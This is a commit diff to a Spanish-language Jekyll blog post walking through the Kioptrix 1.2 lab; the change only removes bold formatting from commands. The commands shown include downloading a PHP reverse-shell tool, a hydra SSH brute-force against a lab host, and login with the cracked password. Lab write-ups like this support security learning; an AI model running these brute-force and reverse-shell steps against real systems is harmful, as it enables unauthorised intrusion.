

Before and after one commit to pgrandoli/pgrandoli.github.io, a Jekyll site: the page built from _posts/2020-02-06-Kioptrix1.2-Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 6222 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Add files via upload

`````diff
--- a/_posts/2020-02-06-Kioptrix1.2-Walkthrough.md
+++ b/_posts/2020-02-06-Kioptrix1.2-Walkthrough.md
@@ -226,9 +226,9 @@ A ver que dice [PentestMonkey](http://pentestmonkey.net/tools/web-shells/php-rev
 
 Viene con videíto y todo:
 
->``**wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz**``
+>``wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz``
 
->``**tar -zxvf php-reverse-shell-1.0.tar.gz**``
+>``tar -zxvf php-reverse-shell-1.0.tar.gz``
 
 
 Después de tratar y googlear bastante me di cuenta que no podía hacer mucho con phpMyAdmin así que me puse a buscar otras vías de acceso.
@@ -237,7 +237,7 @@ Me mandé con un ataque de fuerza bruta al servicio de **SSH**, ya tengo un usua
 
 Ahora a probar:
 
->``**hydra -l loneferret -P /usr/share/wordlists/10-million-password-list-top-1000.txt ssh://10.0.0.110 -t 4 -f**``
+>``hydra -l loneferret -P /usr/share/wordlists/10-million-password-list-top-1000.txt ssh://10.0.0.110 -t 4 -f``
 
 ```console
 Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
@@ -254,11 +254,11 @@ Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-02-06 04:45:
 ```
 El password era **starwars** asi que:
 
->``**ssh loneferret@10.0.0.110**``
+>``ssh loneferret@10.0.0.110``
 
 Algo que hago siempre que logro una sesión de bajos privilegios es correr el comando ``sudo -l`` para ver si el usario tiene la capacidad de correr algún comando como **root**.
 
->``**sudo -l**``
+>``sudo -l``
 
 ````console
 User loneferret may run the following commands on this host:
`````
